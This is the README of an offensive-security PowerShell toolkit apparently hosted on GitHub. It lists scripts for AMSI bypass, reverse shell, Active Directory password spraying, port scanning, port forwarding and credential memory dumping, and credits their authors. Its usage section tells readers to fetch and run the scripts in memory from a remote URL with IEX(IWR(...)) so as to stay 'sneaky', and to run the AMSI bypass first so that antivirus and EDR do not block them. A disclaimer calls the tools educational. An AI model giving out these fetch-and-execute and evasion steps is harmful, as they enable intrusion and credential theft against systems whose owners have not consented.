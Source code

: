 ![logo](https://user-images.githubusercontent.com/69973378/147786741-83944a0f-2ee8-49f7-bdb4-406f0a70ba84.png)

This repo is a collection of minimalist yet effective powershell offensive securities scripts. The goal is to have a very tiny toolkit, enabling a per need basis to allow minimal footprinting (although it is far from perfect and relying only on an AMSI-Bypass will get you caught by EDR once you start doing shady things such as port opening)

All these scripts are made available for educational purposes only. Using them without system owners'consent is illegal and will give you a free jail trip.
They are all provided without warranty and they may or may not break things. You are responsible of the scripts you run.

# usage
All the scripts can be used locally but since we're using powershell and we're trying to be sneaky it is probably better to load them from a webserver using the classic IEX(IWR('https://raw.githubusercontent.com/RaouzRouik/smallposh/main/thescriptyouwant.ps1')) or on your very own webserver if you prefer

You should definitely start by invoking:

IEX(IWR('https://raw.githubusercontent.com/RaouzRouik/smallposh/main/amsibp-dec-2021-fud.ps1'))

or else AV/EDR will surely block you right away!


# credits

All credits go to their respective owners:
revshell.ps1:  @TihanyiNorbert based on Nishang Framework

https://github.com/tihanyin/PSSW100AVB

amsibp-dec-2021-fud.ps1: @TihanyiNorbert based on Matt Graeber @mattifestation script

https://github.com/tihanyin/PSSW100AVB

ADspray.ps1, bannergrabber.ps1, smblogin.ps1, portscan-tcp.ps1, portscan-udp.ps1: InfosecMatter 

https://github.com/InfosecMatter/Minimalistic-offensive-security-tools

httpfileserv.ps1: 0v3rride

https://github.com/0v3rride/Simple-PowerShell-HTTP-File-Server

PortFWD.ps1: deepzec

https://github.com/deepzec/Win-PortFwd

minidump.ps1: Matt Graeber @mattifestation



